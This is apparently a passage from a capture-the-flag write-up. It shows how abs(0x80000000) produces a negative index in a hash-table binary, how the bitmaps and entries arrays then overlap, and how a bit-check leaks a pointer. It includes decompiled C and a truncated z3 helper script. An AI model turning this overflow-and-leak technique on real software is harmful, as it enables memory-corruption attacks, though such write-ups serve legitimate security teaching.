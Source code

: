 

Do you know that .... `abs(0x80000000)=0x80000000`?

Boom!

So if `hash` return `0x80000000`, then we will get a negative `idx=-2`, and the `bitmaps` array and the `entries` array will overlap. 

Which means we can use `bitmaps` to change `entries[-2]` to whatever we want. But we need to leak first...How?

In the `find_by_name` function

```cpp
char *__fastcall find_by_name(unsigned __int8 *a1)
{
  int v1; // ST24_4
  char v2; // ST20_1
  char v3; // al
  int v5; // [rsp+24h] [rbp-Ch]
  struct Entry *i; // [rsp+28h] [rbp-8h]

  v1 = hash1((char *)a1);
  v2 = hash2(a1);
  v3 = hash3(a1);
  v5 = abs(v1) % 62;
  if ( !(unsigned int)check(v5, v2, v3) )
    return 0LL;
  for ( i = entries[v5]; i && strcmp(i->name, (const char *)a1); i = i->next )
    ;
  return i->value;
```

There is a check to see whether certain bits are set in the `bitmap`. Oh, then we can leak the content in `bitmaps[60:62]` which is `entries[-2]` bit by bit! 

With all these , the exploitation is easy as solving a web challenge.

I use `z3` to help find the needed `name`



#### Final Exploit:

`z3 helperscript: more.py`：

```python
#!/usr/bin/env python
# coding=utf-8
from z3 import *
import sys
s = Solver()
a = BitVec("a", 32)
b = BitVec("b", 32)
c = BitVec("c", 32)
d = BitVec("d", 32)
e = BitVec("e", 32)
f = BitVec("f", 32)

g = BitVec("g", 32)
h = BitVec("h", 32)

i = BitVec("i", 32)

i=(((((0x1337*a+1)*b+1)*c+1)*d+1)*g+1)*h+1
s.add(a<256,b<256,c<256,d<256,g<256,h<256,i<=0x7eFFFFFF)
s.add(a>0,b>0,c>0,d>0,g>0,h>0,i>0)

tmp=int(sys.argv[1])
```
